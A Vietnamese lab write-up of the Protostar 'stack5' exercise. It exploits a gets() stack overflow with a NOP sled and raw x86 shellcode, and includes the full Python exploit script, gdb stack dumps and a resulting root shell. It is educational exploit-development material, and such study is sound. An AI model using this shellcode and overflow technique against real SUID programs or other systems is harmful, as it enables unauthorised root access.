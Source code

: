 # **stack5**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## New knowledge:
- shellcode: In hacking, a shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but any piece of code that performs a similar task can be called shellcode. (_Wikipedia_: https://en.wikipedia.org/wiki/Shellcode)
- \xcc, int3: The INT3 instruction is a one-byte-instruction defined for use by debuggers to temporarily replace an instruction in a running program in order to set a code breakpoint. (_Wikipedia_: https://en.wikipedia.org/wiki/INT_(x86_instruction)#INT3) 
- \x90, nop: does nothing
- SUID (Set owner User ID up on execution): is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it. (https://www.linux.com/training-tutorials/what-suid-and-how-set-suid-linuxunix/)

## Target
- Cho payload shellcode vào stack và ghi đè return address để eip trỏ đến noi chứa payload.

## Vulnerability
gets()

## Recon
- Stack có flag x

```
┌──(kali㉿kali)-[~/Documents/week9]
└─$ objdump -x ./bin/stack5

./bin/stack5:     file format elf32-i386
./bin/stack5
architecture: i386, flags 0x00000112:
EXEC_P, HAS_SYMS, D_PAGED
start address 0x08048310

Program Header:
    PHDR off    0x00000034 vaddr 0x08048034 paddr 0x08048034 align 2**2
         filesz 0x000000e0 memsz 0x000000e0 flags r-x
  INTERP off    0x00000114 vaddr 0x08048114 paddr 0x08048114 align 2**0
         filesz 0x00000013 memsz 0x00000013 flags r--
    LOAD off    0x00000000 vaddr 0x08048000 paddr 0x08048000 align 2**12
         filesz 0x000004a4 memsz 0x000004a4 flags r-x
    LOAD off    0x000004a4 vaddr 0x080494a4 paddr 0x080494a4 align 2**12
         filesz 0x00000108 memsz 0x00000110 flags rw-
 DYNAMIC off    0x000004b8 vaddr 0x080494b8 paddr 0x080494b8 align 2**2
         filesz 0x000000d0 memsz 0x000000d0 flags rw-
    NOTE off    0x00000128 vaddr 0x08048128 paddr 0x08048128 align 2**2
         filesz 0x00000044 memsz 0x00000044 flags r--
   STACK off    0x00000000 vaddr 0x00000000 paddr 0x00000000 align 2**2
         filesz 0x00000000 memsz 0x00000000 flags rwx
```
- Check suid: mọi file trong protostar đều thuộc quyền sở hữu của root và có suid.

<img src="pictures/suid.png">

## Exploit
- Phân tích stack:

<img src="pictures/stack1.png">

- Sử dụng script sau để sinh ra exploit, trong đó bao gồm:
     - 68 bytes = 0x40 + 0x4 để ghi lên buffer và ebp.
     - 5 lần (địa chỉ cần ghi đè lên return address): do dòng code "and esp, 0xfffffff0" sinh ra một khoảng trong stack có size [0x0 - 0xf]
```
import struct
padding = 'a'*68
eip = struck.pack("I", 0xtarget_address) * 5

print(padding + eip)
```
- Tiếp theo ta cần cho payload vào stack, lấy địa chỉ của payload để ghi đè lên return address.
     - Ta sẽ cho payload vào phía dưới của return address.
     
     <img src="pictures/payload_below.png">

     - Tuy nhiên địa chỉ của payload không cố định mỗi lần chạy do stack có được push vô một số biến môi trường (và nó có thể khác nhau mỗi lần chạy). Nên ta cần một kỹ thuật để có thể để eip trỏ đến được địa chỉ của payload => dùng nop (khi thực thi lệnh nop, eip sẽ trỏ sang ngay câu lệnh kế tiếp):
     
     <img src="pictures/nop.png">

     - => Do đó chỉ cần nhảy vô 1 trong số các nop này ta sẽ đến được payload (Không cần địa chỉ chính xác của payload nữa).
     - Update script:
     ```
     import struct
     padding = 'a' * 68
     eip = struck.pack("I", 0xtarget_address) * 5

     slide = '\x90' * 100
     payload = ''

     print(padding + eip + slide + payload)
     ```
     - Để 0xtarget_address là địa chỉ ngẫu nhiên, đặt breakpoint ở dòng lệnh "ret", quan sát stack:
     ```
     0x80483da <main+22>:    ret
     0xbffff7cc:     0x61626364      0x61626364      0x61626364      0x90909090
     0xbffff7dc:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff7ec:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff7fc:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff80c:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff81c:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff82c:     0x90909090      0x90909090      0x90909090      0x90909090
     0xbffff83c:     0xc93112eb      0xb15f565e      0xfe068a15      0x460688c8
     ```

     - Lấy một địa chỉ ở giữa vùng nop code: 0xbffff810 thay vào script.
     - Tìm shellcode thích hợp để tay vào script (intel, x86, ...): https://shell-storm.org/shellcode/files/shellcode-690.php

     => final script để sinh ra exploit: 
     ```
     import struct

     padding = 'a' * 68
     eip = struct.pack("I", 0xbffff810) * 5

     slide = '\x90' * 100
     payload = "\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81"
     print(padding + eip + slide + payload)
     ``` 
- Lưu vào file exploit:
```
python script.py > exploit
```
- Chạy thử trong gdb:
```
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit
0x80483da <main+22>:    ret
0xbffff7cc:     0xbffff810      0xbffff810      0xbffff810      0x90909090
0xbffff7dc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7ec:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7fc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff80c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff81c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff82c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff83c:     0xc93112eb      0xb15f565e      0xfe068a15      0x460688c8

Breakpoint 1, 0x080483da in main (argc=-1869574000, argv=0x90909090) at stack5/stack5.c:11
11      in stack5/stack5.c
(gdb) c
Continuing.
Executing new program: /bin/dash

Program exited normally.
Error while running hook_stop:
No registers.
```
=> **Executing new program: /bin/dash**
- Chạy trực tiếp:
```
user@protostar:/opt/protostar/bin$ cat /tmp/exploit | ./stack5
user@protostar:/opt/protostar/bin$ 
```
- Không có gì xảy ra!
     - Theo giải thích của liveoverflow: stdoutput của stack5 được điều hướng đến stdinput của /bin/dash. Nếu như stack5 kết thúc thì /bin/dash không còn input => kết thúc.
- Sử dụng cat để điều hướng stdinput đến stdoutput
```
user@protostar:/opt/protostar/bin$ (cat /tmp/exploit ; cat) | ./stack5
whoami
root
```

# References
- First Exploit! Buffer Overflow with Shellcode - bin 0x0E: https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=19
- Running a Buffer Overflow Attack - Computerphile: https://www.youtube.com/watch?v=1S0aBV-Waeo
- shellcode: https://en.wikipedia.org/wiki/Shellcode
- \xcc | int3: https://en.wikipedia.org/wiki/INT_(x86_instruction)#INT3
- suid: https://www.linux.com/training-tutorials/what-suid-and-how-set-suid-linuxunix/